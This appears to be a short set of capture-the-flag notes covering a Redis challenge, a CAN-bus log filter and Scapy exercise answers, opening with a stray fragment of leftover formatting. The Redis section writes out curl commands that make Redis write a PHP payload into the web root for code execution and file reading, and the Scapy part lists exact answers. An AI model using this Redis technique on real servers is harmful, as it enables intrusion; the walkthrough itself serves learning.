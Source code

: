 ```json
  }
```

## Redis
* there can be interacted with a redis-db via curl and a maintenance-page.
* the goal is to access/read/download index.php
* proceeded as in https://book.hacktricks.xyz/pentesting/6379-pentesting-redis described

```bash
  curl http://localhost/maintenance.php?cmd=config,set,dir,'/var/www/html'

  curl http://localhost/maintenance.php?cmd=CONFIG,SET,dbfilename,sh.php    

  # check if rce works   curl http://localhost/maintenance.php?cmd=SET,TEST,<?php phpinfo(); ?>  
  # payload hast to be url-encoded
  curl http://localhost/maintenance.php?cmd=SET,TEST,%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%20      
      
  # payload to access index.php <?php echo file_get_contents( "index.php" ); ?>  
  curl http://localhost/maintenance.php?cmd=SET,TEST,%3C%3Fphp%20echo%20file_get_contents%28%20%22index.php%22%20%29%3B%20%3F%3E%20

  curl http://localhost/maintenance.php?cmd=SAVE

```

## Can-Bus
* `cat candump.log | grep -v 244`to filter to the relevant lines
* `./runtoanswer 122520`
* baamm, that's it


## Scappy Prepper
* task.submit('start')                       
* task.submit(send)                          
* task.submit(sniff)                         
* task.submit(1)                             
* task.submit(rdpcap)                        
* task.submit(2)                             
* task.submit(UDP_PACKETS[0])                
* task.submit(TCP_PACKETS[1][TCP])           
* UDP_PACKETS[0][IP].src = "127.0.0.1"       
* task.submit(UDP_PACKETS[0])                
* TCP_PACKETS[3][Raw].load                   
* task.submit('echo')                        
* ICMP_PACKETS[1][ICMP].chksum               
* task.submit(19524)                         
* task.submit(3)                             
* pkt = IP(dst='127.127.127.127')/UDP(dport=5000)
* task.submit(pkt)                           
* pkt = IP(dst='127.2.3.4')/UDP(dport=53)/DNS(qd=DNSQR(qname="elveslove.santa"))
* task.submit(pkt)   
* ARP_PACKETS[1][Ether].src     -> Get the unknown mac-address                
* ARP_PACKETS[1][ARP].op = 2                 
* ARP_PACKETS[1][ARP].hwsrc = '00:13:46:0b:22:ba'
* ARP_PACKETS[1][ARP].hwdst = '00:16:ce:6e:8b:24'
* task.submit(ARP_PACKETS)    

